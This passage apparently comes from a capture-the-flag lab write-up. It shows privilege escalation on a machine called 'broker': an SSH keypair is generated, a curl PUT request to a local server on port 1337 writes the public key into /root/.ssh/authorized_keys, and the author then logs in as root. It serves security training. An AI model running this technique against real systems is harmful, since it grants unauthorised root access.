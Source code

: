     On the above output, we can see that the port `1337` is listening, so we are now ready to write our public SSH key to `/root/.ssh/authorized_keys`. We can create the keypair as follows:

    ```bash
    activemq@broker:~$ ssh-keygen
    Generating public/private rsa key pair.
    Enter file in which to save the key (/home/activemq/.ssh/id_rsa): ./root
    Enter passphrase (empty for no passphrase):
    Enter same passphrase again:
    Your identification has been saved in ./root
    Your public key has been saved in ./root.pub
    The key fingerprint is:
    SHA256:bbdKvspexlaqMlzvFgioZI6i+4pRKEfNj0uFS3aGkRQ activemq@broker
    The key's randomart image is:
    +---[RSA 3072]----+
    |   .Eo           |
    |   o.+           |
    |  . B.+          |
    | ooo.B.  .       |
    |o=o.+ ..S.o o    |
    |+oo. .  oo.+ .   |
    |+   .. . .B..    |
    |o.    +. Bo.     |
    |++.    +=+=.     |
    +----[SHA256]-----+
    ```

    As the output says, the public key is now stored under `./root.pub`. We can now use `curl` to sent the `PUT` request that will write the file. Having set the document root to `/`, we specify the full path `/root/.ssh/authorized_keys` and use the `-d` option to set the contents of the written file to our public key:

    ```bash
    activemq@broker:~$ curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
    ```
11. We can now `ssh` into the machine as `root`:

    ```bash
    activemq@broker:~$ ssh -i root root@localhost
    <SNIP>
    root@broker:~# cat /root/root.txt
    <SNIP>
    ```

    {: .normal width="80%"}
